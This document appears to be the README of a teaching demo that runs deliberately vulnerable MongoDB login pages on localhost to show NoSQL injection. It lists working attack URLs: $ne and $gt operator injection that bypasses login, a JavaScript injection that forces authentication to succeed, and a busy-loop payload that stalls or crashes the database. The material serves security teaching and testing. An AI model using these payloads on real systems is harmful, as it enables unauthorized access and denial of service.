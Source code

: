 # NoSQLInjectionAttackDemo
NoSQLInjectionAttackDemo is website demo for test NoSQL Injection. There are two website demos in this project and all databases are mongoDB
# Requirements
Install web server for example nginx, apache on local computer. On a Debian, Red Hat based system or windows are ok.
# Building
demo   : http://localhost/github/NoSQLInjectionAttackDemo/demo.html

demo_1 : http://localhost/github/NoSQLInjectionAttackDemo/demo_1.html
# Usage
Open url in the browser: http://localhost/github/NoSQLInjectionAttackDemo/demo.html
![image](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo/blob/master/images/demo.png)
Attack URL for demo:
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$ne]=2&password[$ne]=r
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$gt]=&password[$gt]=

Attack URL for demo_1:
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;return true;}//
无论用户密码是否正确都返回true
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;var date = new Date(); var curDate = null; do { curDate = new Date(); } while((Math.abs(date.getTime()-curDate.getTime()))/100 < 20); return true;}//
将系统延迟20秒，如果改成while((Math.abs(date.getTime()-curDate.getTime()))/1000 < 20); 则可以导致数据库报错。